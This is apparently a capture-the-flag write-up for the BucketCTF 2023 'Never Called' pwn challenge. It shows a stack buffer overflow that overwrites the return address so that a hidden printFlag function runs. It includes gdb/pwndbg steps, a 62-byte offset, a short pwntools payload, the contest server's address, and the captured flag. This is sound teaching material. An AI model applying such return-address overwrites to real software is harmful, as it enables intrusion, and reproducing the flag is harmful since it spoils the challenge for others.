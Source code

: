 > I made a C program and in the program the method to get the flag is never called. How will you get it this time?
> ASLR is off on the server.

Open the source file in IDA. Let's see what functions are there. We find the functions main, getMessage and printFlag.

![](BucketCTF%202023/PWN%20-%20Never%20Called/1.png)

Let's see what the main function does. The main function calls another function, getMessage. Now let's have a look at what's there.

![](BucketCTF%202023/PWN%20-%20Never%20Called/2.png)

The getMessage function reads the string entered by the user. And that's it. To call the printFlag function we need to overwrite the return address from the getMessage function.

![](BucketCTF%202023/PWN%20-%20Never%20Called/3.png)
![](4.png)

Now we will need a debugger. Because ASLR is disabled on the server, we need to disable it on the workstation before studying it as well (this can be found on Google). We will use gdb with pwndbg plugin as debuggers. Let's start gdb.

```bash
gdb ./never_called.out
```

Let's run the program and try to enter 100 characters. The pwndbg plugin indicates that the wrong return address is **0x61716161**.

![](5.png)

The EIP register tells the computer the address of the next command. By successfully overwriting it we can count that **offset is 62**.

![](6.png)

Now we need to get the address of the beginning of the printFlag function. To get the start address of the printFlag function, we have to disassemble it. The address of the printFlag function is **0x565562ab**. 

![](7.png)

For writing exploitation in PWN tasks we usually use the python3 library - pwntools. Let's create an exploitation template with the following command:

```bash
pwn template never_called.out --host 213.133.103.186 --port 32867 > nev_call.py
```

To get the flag we need to send 62 characters and after the start address of the printFlag function. The resulting payload will be as follows:

```python
offset = 62
payload = flat(
    b'A' * offset,
    p32(0x565562ab),
)
```

Now let's run the exploit with a command:

```bash
python3 nev_call.py DEBUG
```

And we get the flag!

![](8.png)

> Full [exploit](nev_call.py)
> Flag: **bucket{5t4ck_5m45h3r_974c91a5}**